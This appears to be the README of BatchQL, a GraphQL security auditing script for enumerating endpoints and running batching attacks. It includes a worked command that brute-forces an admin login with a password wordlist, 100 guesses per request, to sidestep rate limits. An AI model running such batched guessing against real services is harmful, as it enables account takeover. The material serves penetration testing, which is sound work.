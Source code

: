 # BatchQL

BatchQL is a GraphQL security auditing script with a focus on performing batch GraphQL queries and mutations. This script is not complex, and we welcome improvements.

When exploring the problem space of GraphQL batching attacks, we found that there were a few blog posts on the internet, however no tool to perform GraphQL batching attacks.

GraphQL batching attacks can be quite serious depending on the functionalities implemented. For example, imagine a password reset functionality which expects a 4 digit pin that was sent to your email. With this tool, you could attempt all 10k pin attempts in a single GraphQL query. This may bypass any rate limiting or account lockouts depending on the implementation details of the password reset flow.

# Detections

This tool is capable of detecting the following:

- Introspection query support
- Schema suggestions detection
- Potential CSRF detection
- Query name based batching
- Query JSON list based batching

# Attacks

Currently, this tool only supports sending JSON list based queries for batching attacks. It supports scenarios where the variables are embedded in the query, or where they are provided in the JSON input.

# Usage

## Enumeration

```
❯ python batch.py -e http://re.local:5000/graphiql -p localhost:8080

Schema suggestions enabled. Use Clairvoyance to recover schema: https://github.com/nikitastupin/clairvoyance
CSRF GET based successful. Please confirm that this is a valid issue.
CSRF POST based successful. Please confirm that this is a valid issue.
Query name based batching: GraphQL batching is possible... preflight request was successful.
Query JSON list based batching: GraphQL batching is possible... preflight request was successful.
Most provide query, wordlist, and size to perform batching attack.
```

## Batching Attacks

1. Save a file that contains your GraphQL query i.e. `acc-login.txt`:

```
mutation emailLoginRemembered($loginInput: InputRememberedEmailLogin!) {
  emailLoginRemembered(loginInput: $loginInput) {
    authToken {
      accessToken
      __typename
    }
    userSessionResponse {
      userToken
      userIdentity {
        userId
        identityType
        verified
        onboardingStatus
        registrationReferralCode
        userReferralInfo {
          referralCode {
            code
            valid
            __typename
          }
          __typename
        }
        __typename
      }
      __typename
    }
    __typename
  }
  }
```

2. Run the following command to run a GraphQL batching attack:

```
❯ python batch.py --query acc-login.txt --wordlist passwords.txt -v '{"loginInput":{"email":"admin@example.com","password":"#VARIABLE#","rememberMe":false}}' --size 100 -e http://re.local:5000/graphiql -p localhost:8080
```

The above command does the following:

- Specifies a query from a local file `--query acc-login.txt`.
- Specifies a wordlist `--wordlist passwords.txt`
- Specifies the variable input with the replacement identifier `-v {"loginInput":{"email":"admin@example.com","password":"#VARIABLE#","rememberMe":false}}`
- Specifies the batch size `--size 100`
- Specifies the endpoint `-e http://re.local:5000/graphiql`
- Specifies a proxy `-p localhost:8080`

# References

- [Exploiting GraphQL](https://blog.assetnote.io/2021/08/29/exploiting-graphql/)
- [Damn Vulnerable GraphQL Application](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application)
- [GraphQL Batching Attack - Wallarm](https://lab.wallarm.com/graphql-batching-attack/)
- [Mitigating Batching Attacks](https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html#mitigating-batching-attacks)
